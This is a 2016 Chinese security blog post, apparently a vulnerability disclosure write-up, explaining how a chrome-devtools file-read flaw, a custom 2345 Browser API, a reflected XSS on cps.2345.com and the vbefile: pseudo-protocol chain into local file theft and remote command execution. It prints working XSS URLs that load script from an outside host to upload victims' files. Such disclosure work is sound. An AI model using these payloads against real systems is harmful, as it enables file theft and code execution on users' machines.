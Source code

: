 title: "[浏览器安全系列一] 2345浏览器本地文件读取及远程命令执行"
date: 2016-07-23 23:04:35
tags: ["安全", "浏览器安全", "XSS"]

---

案例链接：http://wooyun.org/bugs/wooyun-2016-0204520

### 背景知识

#### 0x00 chrome-devtools本地文件读取漏洞

在 http://www.wooyun.org/bugs/wooyun-2010-0176314 中使用到了一个chrome-devtools的一个本地文件读取的漏洞（只有特定几个版本有这个问题，现在已经修复），访问URL
```
chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://xxx.com/&remoteFrontend=true
```
就会加载并执行xxx.com下的screencast_module.js，在这个js中，有权限使用DevToolsAPI，利用向外出容器发送类型为loadNetworkResource的消息可以读取到本地文件内容。我写了一个flask程序进行验证，见测试代码。 在C盘新建一个`111.txt`并写入内容，运行服务器之后，在2345浏览器打开`chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://127.0.0.1/file/&remoteFrontend=true`。本地测试截图：
![](http://ww1.sinaimg.cn/large/005GzSIagw1f3hwy8nqwcj30ln0bigp3.jpg)

#### 0x01 WebKit系浏览器伪协议调用

在 http://www.wooyun.org/bugs/wooyun-2010-0175902 中，可以通过`location.href="vbefile:/../../../已知路径/1.js"`来执行本地文件`1.js`
![](http://ww1.sinaimg.cn/large/005GzSIagw1f3hwyb7kovj30ob0aen1j.jpg)

### 一步一步构造PoC

#### 0x00 首先我们来思考如何实现读取本地文件
	
要让用户自己主动打开：`chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://x.xx.com/file/&remoteFrontend=true`貌似不太可能，如@gainover提到的，location.href，window.open进行跳转都是会因为安全问题而被浏览器限制，比如：提示Not allowed to load local resource，或打开页面是空白等措施。

#### 0x01 国产浏览器的毛病

在很多基于Chromium进行开发的国产浏览器中，厂商都会加入一些自己定制的API来实现一些特定的功能。在2345浏览器中，我发现一个API：`chrome.ntp2345.prepareThumbnail`，根据名字猜测，这个API应该是用于获取指定URL的HTML页面的截图，也就是说会先访问页面，然后渲染生成缩略图。（因为之前在一个开源项目中实现过类似功能，所以看到这个比较敏感）。进行了尝试之后，发现果然可以执行，并且服务端接收到了发送上来的文件内容，完美地绕过了安全限制！

```
chrome.ntp2345.prepareThumbnail('chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://127.0.0.1/file/&remoteFrontend=true')
```

#### 0x02 XSS来帮忙

发现上面的API之后，我里面写了一个页面进行测试，发现还是有一定的限制，那就是这个API在非2345.com及其子域名下执行的话，会直接返回2并且不会访问制定的URL。怎么办？我们来找个XSS不就绕过了？这里有点幸运，我Google了一下`site:2345.com inurl:url`就找到了一个使用js进行url跳转的XSS，原理类似于@phith0n的http://wooyun.org/bugs/wooyun-2016-0179329 ，不受chrome限制的XSSAuditor一个反射型XSS。

```
http://cps.2345.com/go/?bid=2014060633&company_id=33&url=javascript:alert(document.domain);//
```
![](http://ww3.sinaimg.cn/large/005GzSIagw1f3hxp65frrj30j20abju9.jpg)
![](http://ww3.sinaimg.cn/large/005GzSIagw1f3hxp84i17j30k6098ac5.jpg)

#### 0x03 本地文件读取PoC
服务端代码：https://gist.github.com/zhchbin/c4f7de8faf8a7cfa6c0f00191277df98#file-2345_poc-py-L199-L240

用户点击一下URL，C盘下的111.txt文件内容就被上传到了服务器上，
```
http://cps.2345.com/go/?bid=2014060633&company_id=33&url=javascript:s=document.createElement(%27script%27);s.src=%27//a.zhchbin.xyz/file/xss.js%27;document.body.appendChild(s);//
```

过程总结：cps.2345.com域名下的XSS，加载/file/xss.js，执行chrome.ntp2345.prepareThumbnail(url)访问chrome-devtools:页面，读取本地文件并上传。

####  0x04 我们来实现远程命令执行

原理：（1）上述的chrome-devtools本地文件读取漏洞不仅能读取文件，还能读取文件列表！（2）我们可以通过浏览器的cache机制，写入我们指定的内容到浏览器的cache目录中（3）可以利用WebKit系浏览器伪协议调用执行cache文件。

2345浏览器的默认cache目录在：C:\Users\%USERNAME%\AppData\Local\2345Explorer\User Data\Default\Cache。要执行这个目录下的cache文件，我们要解决两个问题，首先是找出当前系统的用户名，第二是定位到我们的恶意cache文件。第一个问题，我们可以通过读取C:\Users这个目录下的文件列表，得到用户列表。然后针对每个用户，执行以下的操作来定位恶意cache文件：获取cache目录下的文件列表，保存在localStorage中，然后利用插入img的方式写入恶意cache文件，完成后再获取一次cache目录下的文件列表，找出第二次集合中新增加的文件，上传到服务器中，前端跳转到执行页面，指定iframe的src为`vbefile:/../../../../../../../../Users/xxx/AppData/Local/2345Explorer/User Data/Default/Cache/f_xxxx`，从而达到命令执行的效果。

服务端代码：https://gist.github.com/zhchbin/c4f7de8faf8a7cfa6c0f00191277df98#file-2345_poc-py-L9-L196
用户点击：
```
http://cps.2345.com/go/?bid=2014060633&company_id=33&url=javascript:s=document.createElement(%27script%27);s.src=%27//a.zhchbin.xyz/xss.js%27;document.body.appendChild(s);//
```

测试说明：因为请求有时序依赖，所以里面用了5000毫秒的等待时间，来确保顺序的正确性。测试时可以在修改一下里面的域名变成本地的地址，然后运行。

![](http://ww4.sinaimg.cn/large/005GzSIagw1f3hzd1cp2gg30my0fydmr.gif)
